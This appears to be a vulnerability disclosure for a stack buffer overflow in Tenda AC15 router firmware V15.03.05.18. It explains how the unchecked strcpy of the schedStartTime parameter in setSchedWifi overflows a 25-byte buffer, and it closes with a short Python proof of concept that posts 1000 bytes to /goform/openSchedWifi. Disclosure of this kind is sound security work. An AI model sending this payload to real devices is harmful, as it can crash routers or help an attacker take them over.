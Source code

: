 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305224534793](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224534793.png)

![image-20240305224846344](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224846344.png)

![image-20240314225023241](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314225023241.png)

![image-20240305224605215](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224605215.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314224648283.png)
